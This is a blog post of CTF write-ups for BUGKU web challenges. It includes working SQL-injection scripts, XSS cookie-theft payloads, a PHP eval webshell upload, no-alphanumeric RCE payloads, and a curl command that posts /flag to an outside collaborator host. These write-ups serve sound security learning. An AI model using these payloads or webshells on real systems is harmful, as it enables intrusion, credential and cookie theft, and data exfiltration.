---
title: "BUGKU--web"
date: 2024-11-25T15:24:08+08:00
summary: "BUGKU--web"
url: "/posts/BUGKU-web/"
categories:
  - "赛题wp"
tags:
  - "BUGKU"
draft: false
---

## 滑稽

### #F12


源代码就有flag



## 计算器

### #前端js



题目说算对就能拿到flag，但是我发现这里只能输入一个数字，点击验证的话也抓不到包，然后查看源码发现是限制了输入的数字位数，改成3位就再填入答案就能拿到flag了



## alert

### #源码flag



出现了很多的弹窗，是js语句alert的代码



在源代码底下就有flag，拿去解密就可以拿到了



flag{19760efbde5ba7ec9d7a861a071687eb}

## 你必须让他停下

### #随机抓包有flag

这个题打开是一直有跳转



在源码中找到flag is here



我多截了几个图，然后不小心就截到了有flag的



但是我们还是正常做一下哈

用bp抓包，再不断发包，在response里面找带有flag的就可以了

## 头等舱

### #响应头



flag在响应头中

## GET

### #GET传参



直接get传参传what=flag就可以了

## POST

### #POST传参

跟上一题是一样的，不过这道题是post传参

## source

### #.git泄露

flag在源代码中被注释掉了，看起来是base64解码，拿去解码一下发现是假的flag

应该是常规的信息收集，那我们就扫一下目录



看到一个flag.txt，访问一下发现也是假的，然后我们可以看到上面的.git文件，猜测是git信息泄露



```
wget -r http://url/.git
```

把git文件扒下来进行分析

先试用命令**git reflog**

`git reflog` 是一个 Git 命令，用于查看本地仓库中的引用日志（Reference Logs）。引用日志记录了仓库中的 HEAD 和分支引用的改动历史，可以帮助用户找回丢失的提交或者分支。具体而言，`git reflog` 命令可以显示最近的 HEAD 和分支引用的变动，包括提交、重置、合并等操作，以及相应的操作哈希值和操作描述。



然后一个个用git show进行查看就能找到真正的flag了



## 矛盾

### #is_numeric绕过+弱比较 



这里应该是嵌套的一个if语句吧，因为最后有输出我们传入的num。结合弱比较和is_numeric的作用，直接传入num=1e就能满足判断条件



## 备份是个好习惯

### #md5绕过

出现编码，看着像是md5哈希值加密，我们先拿去解码一下看看，这个哈希值恰好是一个全为0的值，意思就是空文件，什么都没有

根据题目，这可能是备份文件泄露

#### 常见的网站源码备份文件后缀名

- .rar
- .zip
- .7z
- .tar.gz
- .bak
- .swp
- .txt
- .html

#### 常见的网站源码备份文件名

- web
- website
- backup
- back
- www
- wwwroot
- temp

我们先用御剑扫一下目录找到了备份文件，下载下来发现是代码审计题

```php
<?php

include_once "flag.php";
ini_set("display_errors", 0);
$str = strstr($_SERVER['REQUEST_URI'], '?');
$str = substr($str,1);
$str = str_replace('key','',$str);
// 双写绕过
parse_str($str);
// 变量覆盖
echo md5($key1);
echo md5($key2);
if(md5($key1) == md5($key2) && $key1 !== $key2){
    echo $flag."取得flag";
}
?>
```

这里的话就是md5绕过验证了，我们可以知道，当变量是数组的时候，他们的md5是相等的，但这里我们还需要注意的是变量名的验证

1. `$str = str_replace('key','',$str);`：这行代码去掉了查询参数中的 "key" 字符串。

所以这里我们用双写进行绕过验证

```
payload

/?kkeyey1[]=1&kkeyey2[]=2
```

## 变量1

```php
error_reporting(0);
include "flag1.php";
highlight_file(__file__);
if(isset($_GET['args'])){
    $args = $_GET['args'];
    if(!preg_match("/^\w+$/",$args)){
        die("args error!");
    }
    eval("var_dump($$args);");
}
?>
```

分析一下正则匹配

`preg_match("/^\w+$/",$args)`

这段代码的作用是检查 `$args` 是否仅由字母、数字或下划线字符组成，且至少包含一个以上的字符

最关键的是最后的`$$args`,这是可变变量的意思，如`$args`的值是另一个变量的变量名。那么`$$args`就代表另一个变量。所以我们就给args赋值一个变量名，那么PHP的九大全局变量，一个一个试。

### 九大全局变量

- $_POST [用于接收post提交的数据]
- $_GET [用于获取url地址栏的参数数据]
- $_FILES [用于文件就收的处理img 最常见]
- $_COOKIE [用于获取与setCookie()中的name 值]
- $_SESSION [用于存储session的值或获取session中的值]
- $_REQUEST [具有get,post的功能，但比较慢]
- SERVER[是预定义服务器变量的一种，所有SERVER[是预定义服务器变量的一种，所有_SERVER [是预定义服务器变量的一种，所有_SERVER开头的都
- $GLOBALS [一个包含了全部变量的全局组合数组]
- $_ENV [ 是一个包含服务器端环境变量的数组。它是PHP中一个超级全局变量，我们可以在PHP 程序的任何地方直接访问它]

因为题目提示flag In the variable，所以flag是作为数组变量存储在里面的

所以我们直接使用GLOBALS全局变量显示出所有的数组的键值对



## 本地管理员

### #伪造请求头

先使用弱口令发现打不通，然后我在源码中看到有被注释掉的base64编码，解码后是test123，猜测是admin的密码

我们抓包提交一下



根据提示，这里需要伪造管理员的ip进行登录，我们添加一下x-forwarded-for: 127.0.0.1



## game1

### #前端验证

是一个盖楼游戏

在源代码中看到了



这里的话应该就是我们的突破口了，可能是达到多少分才会有flag

然后我们在游戏结束页面进行抓包



sign中的MTc1==是175编码后的，那我们改一下score为9999试一下



看来分数够了，成功拿到flag!

## 源代码

### #js代码审计

题目提示我们看源代码，那我们就看一下源代码



1. `var p1 = '...';` 和 `var p2 = '...';`：这里定义了两个变量 `p1` 和 `p2`，它们的值是经过编码的字符串。这种编码方式看起来类似于 URL 编码，将字符转换为 `%xx` 格式。
2. `eval(unescape(p1) + unescape('%35%34%61%61%32' + p2));`：这里使用了 `eval()` 函数，它将字符串参数作为 JavaScript 代码进行执行。`unescape()` 函数用于解码 URL 编码的字符串。这行代码将对 `p1` 和 `p2` 进行解码后拼接起来，然后将其作为 JavaScript 代码进行执行。

然后我拿去解码得到了这些

```js
function checkSubmit(){
    var a=document.getElementById("password");
    if("undefined"!=typeof a){
        if("67d709b2b54aa2aa648cf6e87a7114f1"==a.value)return!0;
        alert("Error");a.focus();
        return!1
    }
}document.getElementById("levelQuest").onsubmit=checkSubmit;

```

1. `function checkSubmit() { ... }`: 这是一个名为 `checkSubmit` 的函数，用于验证密码字段的值。函数内部包含以下逻辑：
   - `var a = document.getElementById("password");`: 通过 `document.getElementById()` 方法获取 id 为 "password" 的元素，通常表示密码输入框。
   - `if ("undefined" != typeof a) { ... }`: 检查是否成功获取到密码输入框元素。
   - `if ("67d709b2%654aa2aa648cf6e87a7114f1" == a.value) { return true; }`: 如果密码输入框的值等于指定的字符串（"67d709b2%654aa2aa648cf6e87a7114f1"），则返回 `true`，表示验证通过。
   - `alert("Error");`: 如果密码验证不通过，弹出警告框提示用户出错。
   - `a.focus(); return false;`: 将焦点设置回密码输入框，并返回 `false`，表示验证未通过。
2. `document.getElementById("levelQuest").onsubmit = checkSubmit;`: 这行代码将 `checkSubmit` 函数绑定到 id 为 "levelQuest" 的表单的 `onsubmit` 事件上。这意味着在表单提交之前会执行 `checkSubmit` 函数，用于验证密码字段的值，如果验证通过，则表单提交成功，否则会提示错误信息并保持在当前页面。

所以我们要让我们输入的值是67d709b2b54aa2aa648cf6e87a7114f1，输入后就能拿到flag了

## 网站被黑

### #后门木马

题目提示:网站被黑了 黑客会不会留下后门

既然是网站被黑了，那黑客必然会留下什么shell之类的恶意代码，那我们扫一下目录



访问一下shell.php



试了一下弱口令发现都不得行，那就只能爆破了





额我们试一下bp自带的password字典



刚好爆出来是有的

## bp

### #爆破密码

提示了弱密码top1000？z?????，让我们找出密码



账号是admin默认，看样子是需要我们进行爆破，字典应该是top1000，



结果发现没打出来，我看了一下response的内容，发现了这段js代码

```php
  var r = {code: 'bugku10000'}
  if(r.code == 'bugku10000'){
        console.log('e');
	document.getElementById('d').innerHTML = "Wrong account or password!";
  }else{
        console.log('0');
        window.location.href = 'success.php?code='+r.code;
  }
```

后来看了其他大佬的解释：

若r值为{code: 'bugku10000'}，则会返回错误

{通过这一句“window.location.href = 'success.php?code='+r.code;”，可以判断网页将跳转到以code作为参数的success.php页面。其中code的值来自于var r = {code: 'bugku10000'}。

 至此，可以考虑用burp进行爆破。但通过第一次爆破过程中所以返回页面长度一致，可以判断code值的长度与'bugku10000'相同，也是10。考虑到对于10个字符长度进行爆破需要的时间太长，因此现在以code为参数爆破是不可行的。

因为code是success.php页面的参数，因此在登录页面当使用正确密码时，code的值（r.code）应该与'bugku10000'不同，进而r的值也与{code: 'bugku10000'}不同。

 也就是说，如果我们输入正确的密码，返回页面的r将不是{code: 'bugku10000'}。

因此可以在burp的intruder爆破模块中，使用{code: 'bugku10000'}对返回包内容进行筛选。找到返回包不含有{code: 'bugku10000'}的，就可能是使用正确的密码。}





爆破后找到了这个密码的回显包中没有{code: 'bugku10000'}，猜测可能是我们想要的密码，直接输入就能拿到flag了

## 好像需要密码

### #纯数字爆破



又是一个密码界面，直接上爆破吧，因为是纯数字，所以我们设置纯数字的字典进行爆破就可以了



这道题我看到需要爆破的量很多，我就去搜索怎么添加线程。结果忙来忙去浪费了很多时间，不如让他挂着爆破，最后还是拿到flag了

## shell

### #assert函数

打开是一个空白页面，不过在题目提示中有代码

```php
<?php
$poc = "a#s#s#e#r#t"; 
$poc_1 = explode("#", $poc); 
$poc_2 = $poc_1[0] . $poc_1[1] . $poc_1[2] . $poc_1[3] . $poc_1[4] . $poc_1[5];
$poc_2($_GET['s']);
?>
```

1. 首先，定义了一个变量 `$poc`，其值为字符串 "a#s#s#e#r#t"
2. 接着，使用 `explode` 函数将字符串 `$poc` 按照 "#" 分割成数组 `$poc_1`，所以 `$poc_1` 的值为 `["a", "s", "s", "e", "r", "t"]`。
3. 然后，从数组 `$poc_1` 中取出各个元素并拼接成一个字符串 `$poc_2`，这里实际上是将函数名 `assert` 重新组合成字符串。
4. 最后，通过 `$poc_2` 这个字符串作为函数名，执行用户传入的GET参数 `'s'` 的内容。

那我们了解一下assert函数

`assert` 函数是PHP中的一个调试函数，通常用于在代码中验证某个条件是否为真

这里我猜测是我们需要传入的参数s是一个命令，然后assert会将这个命令解析执行

我们可以测试一下



发现是可以正常执行的，那我们就用我们熟悉的ls和cat就可以拿到flag了

## eval

### #eval函数

```php
<?php
    include "flag.php";
    $a = @$_REQUEST['hello'];
    eval( "var_dump($a);");
    show_source(__FILE__);
?>
```

直接对hello传入system命令就行了

## 需要管理员

### #.robot文件泄露



查看源码和页面都没发现什么有用的信息，我们试着用dirsearch扫一下目录



得到一个/robots.txt文件，我们访问一下



 我们访问一下



直接传入x=admin就可以了



## 程序员本地网站

### #伪造X-Forwarded-For请求头



看到这个第一时间想到的就是修改请求头进行内网伪装

**X-Forwarded-For		用来说明从哪里来的，一般用来内网伪装			X-Forwarded-For: 127.0.0.1**

在请求包中添加X-Forwarded-For: 127.0.0.1



直接就拿到flag了

## 你从哪里来

### #伪造Referer请求头



这个一看就是需要修改请求头了

**Referer	先前网页的地址，当前请求网页紧随其后,即来路	Referer: [www.baidu.com](www.baidu.com)**

需要先前网页是谷歌的地址



## 前女友

### #绕过md5和strcmp()验证



在源代码中找到了code.txt



我们点进去看一下



`strcmp()` 是一个 PHP 函数，用于比较两个字符串。它的用法如下：

```
int strcmp ( string $str1 , string $str2 )
```

- 如果 `str1` 小于 `str2`，那么 `strcmp()` 返回一个小于 0 的整数。
- 如果 `str1` 大于 `str2`，那么 `strcmp()` 返回一个大于 0 的整数。
- 如果 `str1` 等于 `str2`，那么 `strcmp()` 返回 0。

strcmp函数无法比较数组,对象，会返回0

md5可以用数组绕过，也可以用碰撞



## MD5

### #MD5碰撞



那我们传入a=1试试


提示错误，题目提示是md5碰撞，根据 PHP 弱类型比较的特点，所以如果两个不同的密码经过哈希以后，其哈希值都是以 `0E` 开头的，那么 PHP 将会认为他们相同，这就是所谓的 **MD5 碰撞漏洞**。

所以我们选一个常见的md5碰撞值就可以了

```php
大写字母类：
QLTHNDT
0e405967825401955372549139051580
QNKCDZO
0e830400451993494058024219903391
EEIZDOI
0e782601363539291779881938479162
TUFEPMC
0e839407194569345277863905212547
UTIPEZQ
0e382098788231234954670291303879
UYXFLOI
0e552539585246568817348686838809
IHKFRNS
0e256160682445802696926137988570
PJNPDWY
0e291529052894702774557631701704
ABJIHVY
0e755264355178451322893275696586
DQWRASX
0e742373665639232907775599582643
DYAXWCA
0e424759758842488633464374063001
GEGHBXL
0e248776895502908863709684713578
GGHMVOE
0e362766013028313274586933780773
GZECLQZ
0e537612333747236407713628225676
NWWKITQ
0e763082070976038347657360817689
NOOPCJF
0e818888003657176127862245791911
MAUXXQC
0e478478466848439040434801845361
MMHUWUV
0e701732711630150438129209816536
```

## 各种绕过哟

### #sha1数组绕过

```php
<?php
highlight_file('flag.php');
$_GET['id'] = urldecode($_GET['id']);
$flag = 'flag{xxxxxxxxxxxxxxxxxx}';
if (isset($_GET['uname']) and isset($_POST['passwd'])) {
    if ($_GET['uname'] == $_POST['passwd'])

        print 'passwd can not be uname.';

    else if (sha1($_GET['uname']) === sha1($_POST['passwd'])&($_GET['id']=='margin'))

        die('Flag: '.$flag);

    else

        print 'sorry!';

}
?>
```

关注判断条件

只要使uname的sha1的值与passwd的sha1的值相等即可，但是同时他们两个的值又不能相等

sha1()函数无法处理数组类型，会将报错并返回false

```
GET:id=margin&&uname[]=1

POST:passwd[]=2
```

## 秋名山车神

### #计算脚本

多刷新几次会有出现


说明我们要post提交参数value

直接用脚本吧(抄的baozongwi 的)

```python
import requests#用于发送 HTTP 请求。
import re#用于处理正则表达式。

url="http://114.67.175.224:19401/"#要访问的网页的 URL。
s=requests.Session()#保持会话

r=s.get(url)
equation=re.search(r'(\d+[+\-*])+(\d+)',r.text).group()#在页面返回的文本中寻找一个数学表达式，并将找到的表达式存储在变量 equation 中。
for i in range(0,50):
    result=eval(equation)#eval() 函数用来执行一个字符串表达式，并返回表达式的值。
    key={'value':result}
    response=s.post(url=url,data=key)
    print(response.text)
    if "flag" in response.text:#查找在response中的flag
        break
```

## 速度要快

### #脚本处理请求


刷新并没有发现什么，直接抓包


发现response中有flag，base64解密得到


还有一层加密


这个数是什么呢，根据注释里面的内容，猜测我们需要post传入一个参数margin

修改一下请求包为post，传入margin=597691


有变化，继续分析，然后我发现是重复的，没办法，只能写脚本了

```python
import requests
import base64

url = "http://114.67.175.224:16522/"
s=requests.Session()

for i in range(0,50):
    r=s.get(url)#发起一个 GET 请求，获取指定 URL 的响应，并将响应存储在变量 r 中
    header_flag=r.headers['flag']#从响应的头信息中获取名为 'flag' 的值，并将其存储在 header_flag 中。
    header_flag=base64.b64decode(header_flag).decode()

    value=header_flag.split(' ')[-1]# 将字符串 header_flag 按空格分割，然后取最后一个部分作为 value。
    v=base64.b64decode(value).decode('utf-8')# 对 Base64 编码的 value 进行解码，然后将其转换为 UTF-8 编码的字符串。
    response=s.post(url,data={'margin':v})
    print(response.text)
    if 'flag' in response.text:
        print(response.text)
        break

```

## file_get_contents

### #伪协议绕过

```php
<?php
extract($_GET);
if (!empty($ac)){
    $f = trim(file_get_contents($fn));
    if ($ac === $f){
        echo "<p>This is flag:" ." $flag</p>";
    }
    else{
        echo "<p>sorry!</p>";
    }
}
?>
```

考查的是file_get_contents()函数，不会的自行百度哈

大致意思就是要上传 ac和fn两个参数

且ac的值等于fn文件内容的值,但是这里的话是没法满足判断句的，那我们试着绕过一下这个判断句

file_get_contents()绕过我们用伪协议进行绕过

payload:


## Simple SQL injection

### #SQL注入

提示分析新闻详情页的URL参数，随便点一个新闻发现URL中有id参数，加单引号出现报错，存在SQL注入

```http
/article?id=1'	#报错
/article?id=1 and 1=1 正常显示
/article?id=1 and 1=2 文章不存在
```

数字型注入，那接着直接打POC就行

```http
/article?id=1 union select 1,2#
```

但是在进行查询的时候一直出现报错，最后在登录页面传入万能密码直接就拿到flag了。。。

## 成绩查询

### #SQL联合注入

用1和1'测试闭合方式，发现是单引号闭合

用order by测试回显字段数发现字段数是4

用union select查看回显位置

```
-1' union select 1,2,3,4#
```


既然没有过滤那就用联合查询进行注入

```
查询数据库名
-1' union select 1,database(),3,4#
查询表名
-1' union select 1,(select group_concat(table_name)from information_schema.tables where table_schema='skctf'),3,4#
查询表中列名
-1' union select 1,(select group_concat(column_name)from information_schema.columns where table_name='fl4g'),3,4#
查询列中数据
-1' union select 1,(select group_concat(skctf_flag)from skctf.fl4g),3,4#
```

## no select

### #万能密码

猜测是开始有过滤了，而且过滤的还是select

我试了一下万能密码发现能打通

```
1' or 1=1#
```

## login2

### #sql注入md5绕过

测试之后发现都是登录失败，抓包看看有没有什么线索


发现一个tip很显眼啊，拿去解码一下

```php
$sql="SELECT username,password FROM admin WHERE username='".$username."'";
if (!empty($row) && $row['password']===md5($password)){
}
```

这里的话是需要让row中password的md5值等于password，但是这里的话我们是不知道里面有哪些用户和密码的，这时候有个思路就是

通过输入不存在的用户构造新的用户和密码去进行登录

```
username=admin' union select 1,'md5(123)'#&password=123  
这里将123的md5值换进去就行
```


这里可以看到一个index.php，我们访问一下


无回显RCE可以直接打curl外带

```
1;curl -X POST -F xx=@/flag  http://yacgwxvhy7jd2crte67tuxg8lzrqfg35.oastify.com
```

这里换成bp里面服务器collarborator的地址，然后进行poll now就行了


或者也可以直接写文件

```
payload:123 | cat /flag >1.php
```

查看 flag文件并输出到1.php里边

```
1.php可以在网站子目录查看内容拿到flag
```

## sql注入

### #基于布尔的sql盲注

```
admin/1   password error!
admin'/1  username does not exist!
```

注入点应该就是username了，然后fuzz一下过滤，发现空格被过滤了，用联合注释符绕过就行

```
1' /1  username does not exist!
1'||(length(database())>0)# / 1  password error!
1'||(length(database())<0)# / 1  username does not exist!
```

1用户是不存在的，但是因为我们的or语句，右边是满足的，所以返回true，所以第二个测试回显密码错误而不是用户不存在

在构造的时候发现过滤了逗号，还过滤了for，那就不能截取字符了，但是like也被过滤了，不过能用regexp

测出来数据库名是以b开头的

```
1'||((select(database()))regexp('^b'))#password error!
1'||((select(database()))regexp('^c'))#username does not exist!
```

既然测出来回显信息了那就直接打吧

```python
import requests

url = "http://117.72.52.127:13589/index.php"
letter = "0123456789abcdefghijklmnopqrstuvwxyz-{}"
target = ""

for i in range(1,100):

    for j in letter:

        #payload = f"1'||((select(database()))regexp('^{target+j}'))#"
        payload = f"1'||((select(group_concat(password))from(blindsql.admin))regexp('^{target + j}'))#"

        data = {
            "username" : payload,
            "password" : "1"
        }
        r = requests.post(url,data=data)
        if "password error!" in r.text:
            sign = 1
            target += j
            print(target)
            break
```

拿到密码4dcc88f8f1bc05e7c2ad1a60288481a2后登录发现不对，md5？解密一下https://www.somd5.com/


## 都过滤了

### #布尔盲注+命令执行绕过

```http
admin/1		#password error!!@_@
admin'/1	#username error!!@_@
```

注入点在username处，测过滤发现过滤了`/**/`，`||`，`or`，`and`，但是可以用位运算符`^`

```http
admin'^1^'	#username error!!@_@
admin'^0^'	#password error!!@_@
```

由于在字符串和数字进行运算的时候会将字符串转化成0，所以前面`"admin"^1`的结果是`0 ^ 1 = 1`，`"admin"^0`的结果是`0 ^ 0 = 0`

而后面再异或0

```python
1 ^ ""  =>  1 ^ 0  = 1 
0 ^ ""  =>  0 ^ 0  = 0 
```

所以这里`username error!!@_@`就是正确的回显，直接上脚本

```python
import requests

url = "http://171.80.2.169:16571/login.php"

password = ""
for i in range(1,100):
    payload1 = f"admin'^(length(passwd)={i})^'"
    data1 = {
        "uname" : payload1,
        "passwd" : "123"
    }
    print(data1)
    r1 = requests.post(url, data=data1)
    if "username error" in r1.text:
        print("password's length is " + str(i))
        break

for i in range(1,32):
    for j in '0123456789abcdefghijklmnopqrstuvwxyz':
        payload2 = f"admin'^(ascii(mid((passwd)from({i})))={ord(j)})^'"
        data2 = {
            "uname" : payload2,
            "passwd" : "123"
        }
        print(data2)
        r2 = requests.post(url, data=data2)
        if "username error" in r2.text:
            password += j
            print(password)
            break
print("password is", password)
#password's length is 32
#password is 4dcc88f8f1bc05e7c2ad1a60288481a2
```

拿去md5解密得到密码bugkuctf

然后有一个命令执行的面板

```bash
cat</flag
```

当然这里还有一种做法，就是让用户名和数字做`-`法

### 减法查询绕过

```sql
mysql> select * from users;
+----+------------+----------+
| id | username   | password |
+----+------------+----------+
|  1 | test       | 123456   |
|  2 | bao        | 1008611  |
|  3 | wanth3f1ag | 1008     |
|  4 | 1008       | 11111    |
+----+------------+----------+
4 rows in set (0.00 sec)

mysql> select * from users where username = 'test'-0-'';
+----+------------+----------+
| id | username   | password |
+----+------------+----------+
|  1 | test       | 123456   |
|  2 | bao        | 1008611  |
|  3 | wanth3f1ag | 1008     |
+----+------------+----------+
3 rows in set, 4 warnings (0.01 sec)

mysql> select * from users where username = 'test'-1-'';
Empty set, 4 warnings (0.00 sec)

mysql> select * from users where username = 0;
+----+------------+----------+
| id | username   | password |
+----+------------+----------+
|  1 | test       | 123456   |
|  2 | bao        | 1008611  |
|  3 | wanth3f1ag | 1008     |
+----+------------+----------+
3 rows in set, 3 warnings (0.00 sec)
```

有人可能问，最后一个poc不是查询用户名为 0 的用户吗，怎么都查出来了，因为SQL 会自动把 username 字段的每一个值都转成数值，再和 0 对比；只要username的首个字符是字符而不是数字，转成数值后都是 0，所以 username = 0 会匹配几乎所有用户。

https://www.yuque.com/u21437924/ap9vtm/gqkc3dcfmfpe5p85?singleDoc#zjJeh 这位师傅的wp挺详细的

## login1

### #SQL约束攻击

其实就是一个sql处理的差异，在SQL中执行字符串处理和比较时，字符串末尾的空格符将会被删除。

所以这里可以直接注册admin+空格的账户覆盖admin用户的密码

```bash
admin 
111aaaAAA
```

https://cs-cshi.github.io/cybersecurity/%E5%9F%BA%E4%BA%8E%E7%BA%A6%E6%9D%9F%E7%9A%84SQL%E6%94%BB%E5%87%BB/

## 留言板

### #反射性xss

输入正常的xss语句看看效果

```
<script>alert('xss')</script>
```

发现括号被转化成|

扫目录发现了两个文件

```
/admin.php

/db.sql
```

admin.php是一个登录界面，但是这个db.sql访问是404，不知道是环境问题还是什么，所以只好从大佬的wp上摘下来了

```
# Host: localhost  (Version: 5.5.53)
# Date: 2019-08-04 16:13:22
# Generator: MySQL-Front 5.3  (Build 4.234)
 
/*!40101 SET NAMES utf8 */;
 
#
# Structure for table "text"
#
 
CREATE DATABASE xss DEFAULT CHARACTER SET utf8;
use xss; 
 
DROP TABLE IF EXISTS `text`;
CREATE TABLE `text` (
  `Id` int(11) NOT NULL AUTO_INCREMENT,
  `text` varchar(255) DEFAULT NULL,
  PRIMARY KEY (`Id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;
 
#
# Data for table "text"
#
 
/*!40000 ALTER TABLE `text` DISABLE KEYS */;
/*!40000 ALTER TABLE `text` ENABLE KEYS */;
 
#
# Structure for table "user"
#
 
DROP TABLE IF EXISTS `user`;
CREATE TABLE `user` (
  `Id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(255) DEFAULT NULL,
  `password` varchar(255) DEFAULT NULL,
  PRIMARY KEY (`Id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;
 
#
# Data for table "user"
#
 
/*!40000 ALTER TABLE `user` DISABLE KEYS */;
INSERT INTO `user` VALUES (1,'admin','011be4d65feac1a8');
/*!40000 ALTER TABLE `user` ENABLE KEYS */;
```

底下的话就是登录的账号密码，

登录后看到了我刚刚传入的(括号，那我们返回去注入一下xss语句

```
\<script>alert(1)\</script>
```

登录后可以看到有弹窗


那我们看一下admin的cookie中有没有flag

```html
<script>alert(document.cookie)</script>
```


刚好admin的cookie里面就有flag，把前后的编码换成花括号就行了

## 留言板1

### #xss

```
<script>document.location.href="http://[ip]/xss.php?cookie="+document.cookie</script>
```

发现script,http被过滤,还有长度限制

不过好像我的服务器接收不到数据，也不知道为啥，应该是平台的环境问题

## 文件包含

### #文件包含


看到那个click就点了，第一眼感觉像是任意文件读取，但是单单的file=index.php是没办法获取源代码的，我们需要用伪协议去读取源代码

```
获取源码代码
?file=php://filter/resource=xxx.php

通常获取源代码时，伪协议将xxx.php当文件执行，
使得很多信息往往不能直接显示在浏览器页面上，通常使用base64编码后再显示
?file=php://filter/read=convert.base64-encode/resource=index.php

```

页面回显了base64编码

解码后得到

```php
<html>
    <title>Bugku-web</title>
    
<?php
	error_reporting(0);
	if(!$_GET[file]){echo '<a href="./index.php?file=show.php">click me? no</a>';}
	$file=$_GET['file'];
	if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
		echo "Oh no!";
		exit();
	}
	include($file); 
//flag:flag{f81f50efef059669689aa4c5b9831c7a}
?>
</html>

```

不过我发现直接读flag也是可以读到了，?file=/flag直接就能拿到flag了

## cookie

### #cookie伪造

题目提示是cookie欺骗，直接看cookie发现了一个flag，拿去提交发现是假的flag


在url中有a2V5cy50eHQ=，拿去解码发现是一个keys.txt，我们访问一下发现和刚刚的页面内容是一样的，猜测是这个网页访问了一个文本文档，然后我就试着访问一下flag.txt和flag.php发现什么都没有，我就猜测了一下index.php


修改了line发现有不同的内容，后面访问了n个line后才拿到完整的源码

```php
error_reporting(0);
$file=base64_decode(isset($_GET['filename'])?$_GET['filename']:"");
$line=isset($_GET['line'])?intval($_GET['line']):0;
if($file=='') header("location:index.php?line=&filename=a2V5cy50eHQ=");
$file_list = array(
'0' =>'keys.txt',
'1' =>'index.php',
);
if(isset($_COOKIE['margin']) && $_COOKIE['margin']=='margin'){
$file_list[2]='keys.php';
}
if(in_array($file, $file_list)){
$fa = file($file);
echo $fa[$line];
}
?>
```

看到源码就好做了，设置cookie里面的margin等于margin然后访问keys.php


## never_give_up

### erge()函数漏洞

在源码中发现了1p.html，但是访问了会跳转到bugku的官方，那我们抓包拦截一下


发现了很多被注释掉的语句，这是多层解码

第一层


第二层


第三层


最后得到

```php
";if(!$_GET['id'])
{
	header('Location: hello.php?id=1');
	exit();
}
$id=$_GET['id'];
$a=$_GET['a'];
$b=$_GET['b'];
if(stripos($a,'.'))
{
	echo 'no no no no no no no';
	return ;
}
$data = @file_get_contents($a,'r');
if($data=="bugku is a nice plateform!" and $id==0 and strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and substr($b,0,1)!=4)
{
	$flag = "flag{***********}"
}
else
{
	print "never never never give up !!!";
}


?>
```

**条件**

- **变量 $id 弱等于整型数 0**
- **变量 $b 的长度大于 5**
- **字符串 1114 要与字符串 111 连接变量 $b 的第一个字符构成的正则表达式匹配**
- **变量 $b 的第一个字符弱不等于整型数 4**
- **变量 $data 弱等于字符串 bugku is a nice plateform!** 

`reg()` 函数或 `eregi()` 函数存在空字符截断漏洞，即参数中的正则表达式或待匹配字符串遇到空字符则截断丢弃后面的数据。

绕过file_get_contents()函数用前面的方法就行，所以我们用伪协议去做


## 文件包含2


和前面的一样，有?file=的格式，在源码中发现了upload.php，访问发现是一个上传文件的页面


经过测试发现这里对content头和后缀名进行了验证，然后也过滤了`<?php 和?>`,这样的话我们就只能换成phtml的马去做了

### 方法一:一句话木马+蚁剑连马

```html
<script language="php">eval($_REQUEST[cmd])</script>
```

上传后修改文件后缀和content-type头


看见上传成功了，我们访问一下这个http://114.67.175.224:11279/index.php?file=upload/202411280758367957.jpg

访问成功后用蚁剑连接就可以了

### 方法二：rce

我没做记录，所以直接拿的别的师傅的讲一下

新建一个txt文件写入` \<script language=php>system("ls")\</script>` 后另存为 jpg 格式进行上传

上传成功后访问文件可以得到我们页面的文件目录


然后访问：http://123.206.31.85:49166/index.php?file=this_is_th3_F14g_154f65sd4g35f4d6f43.txt

## ezbypass

### #无数字字母RCE

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

if (isset($_POST['code'])) {
    $code = $_POST['code'];
    if (strlen($code) <= 105){
        if (is_string($code)) {
            if (!preg_match("/[a-zA-Z0-9@#%^&*:{}\-<\?>\"|`~\\\\]/",$code)){
                eval($code);
            } else {
                echo "Hacked!";
            }
        } else {
            echo "You need to pass in a string";
        }
    } else {
            echo "long?";
    }
}
```

看到正则匹配直接用脚本把能用的字符输出出来看一下

```php
<?php
for ($i=32;$i<127;$i++){
        if (!preg_match('/[a-zA-Z0-9@#%^&*:{}\-<\?>\"|`~\\\\]/',chr($i))){#替换题目中的正则表达式就行
            echo chr($i)." ";
        }
}
#输出! $ ' ( ) + , . / ; = [ ] _ 
?>
```

就是很经典的无字母数字rce了，可以用自增，异或，取反进行rce

我这里用自增进行rce

```php
<?php
$_=(_/_._)[_];
#var_dump($_); # 输出N
$_++; 
$__=$_.$_++;
$_++;$_++;$_++;
$__=$__.$_;
$_++;
$__=$__.$_;
$_=_.$__;
#var_dump($_); # 输出_POST
$$_[_]($$_[__]);
#也就是 $_POST[_]($_POST[__])

```

解释如下：

- $_POST 变量用来收集表单数据，
- 这里\$\_POST[\_] ($\_POST\[\_\_]),就是要给_和__进行传参，（）的意思应该是分传参的先后次序咯。

最后的payload就是

```
_=system&__=cat /flag&code=%24_%3D(_%2F_._)%5B_%5D%3B%24_%2B%2B%3B%24__%3D%24_.%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24__%3D%24__.%24_%3B%24_%2B%2B%3B%24__%3D%24__.%24_%3B%24_%3D_.%24__%3B%24%24_%5B_%5D(%24%24_%5B__%5D)%3B

```


## No one knows regex better than me

### #php特性

```php
<?php 
error_reporting(0);
$zero=$_REQUEST['zero'];
$first=$_REQUEST['first'];
$second=$zero.$first;
if(preg_match_all("/Yeedo|wants|a|girl|friend|or|a|flag/i",$second)){
    $key=$second;
    if(preg_match("/\.\.|flag/",$key)){
        die("Noooood hacker!");
    }else{
        $third=$first;
        if(preg_match("/\\|\056\160\150\x70/i",$third)){
            $end=substr($third,5);
            highlight_file(base64_decode($zero).$end);//maybe flag in flag.php
        }
    }
}
else{
    highlight_file(__FILE__);
}
```

这里有三层验证，我们逐个进行分析

第一层，将我们传入的zero和first两个参数拼接然后进行正则匹配，所以我们两个参数中只要有一个参数包含里面其中一个就可以了

第二层，将我们的second变量赋值给key然后进行正则匹配，如果key中有..或者flag就会执行die函数

第三层，

\056  为八进制  代表  句点或小数点

\160  为八进制  代表  小写字母 p

\150  为八进制  代表  小写字母 h

\x70  为十六进制 代表  小写字母 p

对first参数进行正则匹配，如果参数中包含|.php才能通过验证

